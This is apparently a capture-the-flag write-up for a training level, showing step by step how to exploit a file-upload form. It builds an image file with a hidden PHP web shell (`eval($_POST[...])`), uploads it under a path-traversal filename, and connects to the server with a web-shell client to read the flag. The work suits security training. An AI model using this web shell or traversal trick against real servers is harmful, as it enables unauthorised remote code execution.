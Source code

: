 # TempImage - FLAG1

## 0x00 Index

![](../flag0/imgs/index.jpg)

## 0x01 Generate Image Shell

Run bat file [gen_imgshell.bat](./gen_imgshell.bat).

```batch
copy img.png/b + webshell.php shell.png
```

Get shell.png which has the injected code.

```php
<?php @eval($_POST['hacker1'])?>
```

![](./shell.png)

## 0x02 Upload the Image Shell

Catch the request and change the file name.

```
Content-Disposition: form-data; name="filename"

/../../shell.php
```

Shell upload successfully.

![](./imgs/shell_upload.jpg)

## 0x03 Connect Server 

![](./imgs/caidao.jpg)

## 0x04 FLAG

Flag can be found in index.php

![](./imgs/flag.jpg)